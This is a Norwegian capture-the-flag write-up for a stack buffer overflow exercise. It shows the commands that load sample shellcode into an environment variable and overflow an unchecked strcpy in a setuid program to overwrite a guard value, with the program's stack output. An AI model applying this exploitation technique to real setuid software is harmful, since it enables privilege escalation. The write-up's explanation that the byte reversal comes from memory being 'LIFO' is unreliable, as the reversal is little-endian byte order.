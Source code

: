 ```sh
$ ls -lah
total 28K
drwxr-xr-x 2 basic4 login 1.0K Feb 12  2020 .
drwxr-xr-x 8 login  login 1.0K Dec 17 19:54 ..
-r-------- 1 basic4 login   33 Dec 17 19:17 FLAGG
-r--r--r-- 1 basic4 login 2.0K Feb 12  2020 LESMEG.md
-r-sr-xr-x 1 basic4 login  17K Feb 12  2020 overflow
-r--r--r-- 1 basic4 login 4.5K Feb 12  2020 overflow.c
-r--r--r-- 1 basic4 login   38 Feb 12  2020 sample_shellcode
```

Vi kan se ut av kildekoden (samt at det hintes ganske kraftig i oppgaven) at programmet `overflow.c` leser en environment variable `SHC`. Det blir også hintet ganske kraftig til at denne kan mates med [shellkode](https://en.wikipedia.org/wiki/Shellcode)

For denne oppgaven trenger vi bare bruke den shellkoden som følger med. Vi setter environment variablen SHC med `export`:

```sh
$ export SHC=$(cat sample_shellcode)
(no output)
```

Hvis vi leser i kildekoden så ser vi at dersom brukeren har satt et eller flere argumenter etter programmnavnet så vil funksjonen `strcpy()` kjøres. Uten noen form for validering putter den hva enn argument vi setter rett til `buffer` som er et unsigned char på 32 bytes. All data over den lengden vil dermed overskrive andre deler av minnet, og kan gjøre det mulig for oss å få programmet til å gjøre ting det egentlig ikke skal - I vår tilfelle; kjøre shellkoden vi lastet inn.

Vi kan starte med å putte inn noen verdier som argument, for å se hva som skjer. Fra oppgaveteksten vet vi allerede at vi skal skrive over above, og det kan vi også se fra koden:

```sh
$ ./overflow AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
...
above has incorrect value.
Read source code to find the magic number.
```

Om vi titter i kildekoden ser vi at `above == 0x4847464544434241` kommer til å gi oss et litt annet resultat.

Vi ser at `A` gir oss verdien `41`, og det samsvarer med `hexadesimal` verdien til [ASCII characteren A](https://www.watelectronics.com/ascii-numbering-system-and-its-conversion-from-ascii-to-hex/). Hva om vi bytter ut noen av A'ene våre med tegn som gir verdiene 48, 47, 46 også videre?

| 48  | 47  | 46  | 45  | 44  | 43  | 42  | 41  |
| --- | --- | --- | --- | --- | --- | --- | --- |
| H   | G   | F   | E   | D   | C   | B   | A   |

Viser seg også at minnet er [LIFO](https://2minutetech.wordpress.com/2015/11/13/what-is-fifo-and-lifo/), og dermed må vi snu om verdiene når vi skal skrive dette inn:

```sh
$ ./overflow AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEFGH

Before strcpy:
above = 0x               0
below = 0x6867666564636261

After strcpy:
above = 0x4847464544434241
below = 0x6867666564636261

Stackdump:
0x7ffc8e1eac60   00 00 08 00 02 00 00 00  |........|
0x7ffc8e1eac58   28 ad 1e 8e fc 7f 00 00  |(.......|
0x7ffc8e1eac50   00 00 00 00 00 00 00 00  |........|
```